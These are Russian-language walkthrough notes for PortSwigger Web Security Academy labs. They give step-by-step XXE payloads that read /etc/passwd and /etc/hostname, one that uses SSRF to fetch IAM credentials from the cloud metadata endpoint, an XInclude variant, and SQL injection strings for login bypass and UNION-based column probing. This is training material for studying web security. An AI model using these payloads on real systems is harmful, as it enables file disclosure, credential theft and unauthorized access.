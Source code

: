 1. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
1)зайти на сайт, 

2)выбрать продукт, 

3)нажать *Check stock*, 

4)перехватить Post запрос через BURP 

5) после объявления xml добавить

' <!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/passwd"> ]> '

6)заменить product id число на &res; 

7)после этого просто отправить запрос и в ответе придёт /etc/passwd

2. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

те же действия, что и в предыдущей. до пункта 4) 

5)после объявления xml добавить:

'<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/"> ]>'

6)заменить product id на &res; отправить запрос, 

7)в ответе придет latest - добавить его к адресу и получим 

'<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest"> ]> 'и так далее, 

n+1)в итоге получаем '<!DOCTYPE kek [ <!ENTITY res SYSTEM 

"http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>', что и приведёт нас к ответу.

3. https://portswigger.net/web-security/xxe/lab-xinclude-attack
те же действия, что и в 1. до пункта 4) 
5)в *product id* вставить '''<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> '''
6)в ответ придёт /etc/passwd

4.
1) 2) выбрать статью 
3)нажать отправить комментариq(заполнить все поля предварительно) 
4)перехватить запрос через Burp
5)в поле для картинки вставить: 
'''<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/hostname"> ]>
 <svg  version="1.1" width="1200" height="1200"
        viewBox="0 0 100 100"
     baseProfile="full"
     xmlns="http://www.w3.org/2000/svg"
     xmlns:xlink="http://www.w3.org/1999/xlink"
     xmlns:ev="http://www.w3.org/2001/xml-events">
 <text font-size = "10" y = "16"> &res; </text>
</svg>'''
svg части взяты из интернета - видимо что-то типа стандарта,размер задан вручную, ViewBox регулировался так, чтоб было видно текст на картинке, собственно как и размер текста(тоже регулировался)


1. https://portswigger.net/web-security/sql-injection/lab-login-bypass
1) в графе login ввести administrator'--
2.https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text 
1)в category использовать '+union+select+NULL,NULL,NULL - так убедимся, что у нас 3 столбца в таблице
2)заменяем NULL по очереди на 'HmnfQ2' - дано в задании
https://ac811f101ea3312280cb0ad600a4009a.web-security-academy.net/filter?category=%27+UNION+SELECT+NULL,%27HmnfQ2%27,NULL-- 
3)второй столбец оказался верным - выводится результат